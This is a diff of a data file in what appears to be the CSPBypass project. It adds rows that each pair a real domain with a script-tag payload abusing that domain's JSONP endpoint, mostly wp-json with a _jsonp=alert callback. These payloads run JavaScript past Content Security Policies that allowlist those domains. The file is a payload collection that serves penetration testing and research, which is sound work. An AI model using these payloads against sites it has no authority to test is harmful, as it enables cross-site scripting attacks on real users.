

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/data.tsv
+++ b/data.tsv
+row 7: abtasty.com | <script src="https://abtasty.com/wp-json?_jsonp=alert"></script>
+row 12: adhouse.pro | <script src="https://adhouse.pro/wp-json?_jsonp=alert"></script>
+row 13: admatic.com.tr | <script src="https://admatic.com.tr/wp-json?_jsonp=alert"></script>
+row 14: admixer.com | <script src="https://admixer.com/wp-json?_jsonp=alert"></script>
+row 15: adpushup.com | <script src="https://adpushup.com/wp-json?_jsonp=alert"></script>
+row 16: adtelligent.com | <script src="https://adtelligent.com/wp-json?_jsonp=alert"></script>
+row 17: advangelists.com | <script src="https://advangelists.com/wp-json?_jsonp=alert"></script>
+row 18: advertising.com | <script src="https://advertising.com/wp-json?_jsonp=alert"></script>
+row 19: airbnb-api.arkoselabs.com | <script src="https://airbnb-api.arkoselabs.com/fc/a/?callback=alert"></script></body>
+row 21: altmetric.com | <script src="https://altmetric.com/wp-json?_jsonp=alert"></script>
+row 59: appointlet.com | <script src="https://appointlet.com/wp-json?_jsonp=alert"></script>
+row 64: avada.io | <script src="https://avada.io/wp-json?_jsonp=alert"></script>
+row 65: bazaarvoice.com | <script src="https://bazaarvoice.com/wp-json?_jsonp=alert"></script>
+row 66: bildirt.com | <script src="https://bildirt.com/wp-json?_jsonp=alert"></script>
```
Also changed, not shown: 46 added rows and 10 moved rows elsewhere in this file.
